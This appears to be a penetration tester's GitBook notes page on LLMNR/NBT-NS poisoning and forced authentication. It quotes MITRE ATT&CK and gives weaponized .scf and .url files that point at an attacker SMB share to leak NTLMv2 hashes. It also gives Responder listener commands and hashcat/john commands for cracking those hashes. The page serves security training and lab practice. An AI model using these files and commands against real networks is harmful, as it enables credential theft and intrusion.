 ```yaml
---
description: Credential Access, Stealing hashes
---
```


# LLMNR Poisoning/Forced Authentication

## LLMNR Poisoning

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks" %}

{% embed url="https://attack.mitre.org/techniques/T1557/001/" %}

> By responding to LLMNR/NBT-NS network traffic, adversaries may spoof an authoritative source for name resolution to force communication with an adversary controlled system. This activity may be used to collect or relay authentication materials.
>
> Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification. LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name. [\[1\]](https://en.wikipedia.org/wiki/Link-Local\_Multicast\_Name\_Resolution)[\[2\]](https://technet.microsoft.com/library/cc958811.aspx)
>
> Adversaries can spoof an authoritative source for name resolution on a victim network by responding to LLMNR (UDP 5355)/NBT-NS (UDP 137) traffic as if they know the identity of the requested host, effectively poisoning the service so that the victims will communicate with the adversary controlled system. If the requested host belongs to a resource that requires identification/authentication, the username and NTLMv2 hash will then be sent to the adversary controlled system. The adversary can then collect the hash information sent over the wire through tools that monitor the ports for traffic or through [Network Sniffing](https://attack.mitre.org/techniques/T1040) and crack the hashes offline through [Brute Force](https://attack.mitre.org/techniques/T1110) to obtain the plaintext passwords.
>
> In some cases where an adversary has access to a system that is in the authentication path between systems or when automated scans that use credentials attempt to authenticate to an adversary controlled system, the NTLMv1/v2 hashes can be intercepted and relayed to access and execute code against a target system. The relay step can happen in conjunction with poisoning but may also be independent of it.[\[3\]](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)[\[4\]](https://blog.secureideas.com/2018/04/ever-run-a-relay-why-smb-relays-should-be-on-your-mind.html) Additionally, adversaries may encapsulate the NTLMv1/v2 hashes into various protocols, such as LDAP, SMB, MSSQL and HTTP, to expand and use multiple services with the valid NTLM response.&#x20;
>
> Several tools may be used to poison name services within local networks such as NBNSpoof, Metasploit, and [Responder](https://attack.mitre.org/software/S0174).

### via SSRF

{% embed url="https://lojique.gitbook.io/proving-grounds/v/heist/web-enum/website" %}

## Forced Authentication

{% embed url="https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication" %}

### Execution via .SCF

Place the below `.scf` file on the attacker controlled machine in a shared folder

{% code title="pwn.scf" %}
```csharp
[Shell]
Command=2
IconFile=\\192.168.123.123\home\kali\pwn.scf
[Taskbar]
Command=ToggleDesktop
```
{% endcode %}

Create a listener on the attacking system:

{% code title="attacker@local" %}
```
responder -I eth1 -v
```
{% endcode %}

### Execution via .URL

Create a weaponized .url file and upload it to the victim system:

```csharp
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\192.168.123.123\%USERNAME%.icon
IconIndex=1
```

Create a listener on the attacking system:

{% code title="attacker@local" %}
```
responder -I eth1 -v
```
{% endcode %}

## Example

{% embed url="https://lojique.gitbook.io/proving-grounds/v/vault/other-services-enumeration/445-smb" %}

## Cracking NTLMv2

```
hashcat -m 5600 'pasted hash' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt --force
john --wordlist=/usr/share/wordlists/rockyou.txt ntlmhash.txt
```
